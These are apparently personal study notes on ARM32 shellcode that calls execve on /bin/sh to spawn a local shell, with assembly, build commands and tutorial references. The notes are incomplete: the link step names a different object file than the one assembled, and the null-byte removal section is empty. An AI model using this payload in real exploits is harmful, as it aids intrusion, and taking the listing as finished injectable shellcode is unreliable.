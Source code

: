 # ARM shellcode for launching a shell
##### arm32 asm
https://github.com/azeria-labs/ARM-assembly-examples/blob/master/execve1.s

`int  execve(const char *filename, char *const argv [], char *const envp[]);`

```
.section .text
.global _start

_start:
        add r0, pc, #12     @r0 = pc + 12 ("/bin/sh\0")
        mov r1, #0          @pass NULL into the argv[]
        mov r2, #0          @pass NULL into the envp[]
        mov r7, #11         @11 is syscall number of execve on linux arm
        svc #0

.ascii "/bin/sh\0"
.ascii "/bin/ls -l\0"
```
# Banana skin
Why `pc + 12`?  Effective PC starts two instructions ahead of the current one. Great details here: https://azeria-labs.com/arm-data-types-and-registers-part-2/

##### Compile on arm64 host
```
arm-linux-gnueabi-as -c execve.s -o execve.o
arm-linux-gnueabi-ld tiny.o -o tiny
```
##### Runtime
```
$ ./tiny
$ exit              <-- new shell
user@arm64:~$       <-- original shell
```
##### Removing Null bytes
```
```
##### References
```
https://azeria-labs.com/writing-arm-shellcode/
http://www.kernel-panic.it/security/shellcode/shellcode5.html
http://shell-storm.org/blog/Shellcode-On-ARM-Architecture/
https://modexp.wordpress.com/2017/01/21/shellcode-osx/
```
